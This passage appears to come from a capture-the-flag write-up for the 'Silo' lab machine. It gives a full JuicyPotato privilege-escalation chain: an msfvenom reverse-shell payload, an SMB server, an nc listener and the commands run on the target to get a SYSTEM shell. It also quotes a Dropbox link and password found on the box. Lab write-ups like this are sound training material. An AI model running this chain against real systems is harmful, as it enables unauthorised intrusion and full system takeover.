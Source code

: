 - https://github.com/ohpe/juicy-potato/tree/master/CLSID/Windows_Server_2012_Datacenter

Use the exploit to get a shell as SYSTEM:

- Using CSLID `{e60687f7-01a1-40aa-86ac-db1cbf673334}` for `wuauserv`

```bash
# run on kali
wget https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe
msfvenom -p windows/shell_reverse_tcp \
         LHOST=10.10.14.25 \
         LPORT=7777 \
         -a x86 --platform windows \
         -e x86/shikata_ga_nai \
         -f exe \
         -o bubba.root.exe
sudo impacket-smbserver BUBBA .
nc -nvlp 7777
# run on target as iis apppool\defaultapppool
robocopy.exe \\10.10.14.25\BUBBA %TEMP% bubba.root.exe /copy:DT /w:1 /r:1 /v 
robocopy.exe \\10.10.14.25\BUBBA %TEMP% JuicyPotato.exe /copy:DT /w:1 /r:1 /v 
%TEMP%\JuicyPotato.exe -l 9876 -p %TEMP%\bubba.root.exe -t * -c {e60687f7-01a1-40aa-86ac-db1cbf673334}
```

And this returns a SYSTEM shell:

![root3](./silo/root3.png)

---

There is _another_ way to SYSTEM too (lolz the box that never ends...)!  Looking at `c:\Users\Phineas\Desktop` shows an interesting file `Oracle issue.txt` with the following content:

```
Support vendor engaged to troubleshoot Windows / Oracle performance issue (full memory dump requested):

Dropbox link provided to vendor (and password under separate cover).

Dropbox link
https://www.dropbox.com/sh/69skryzfszb7elq/AADZnQEbbqDoIf5L2d0PBxENa?dl=0

link password:
�%Hm8646uC$
```
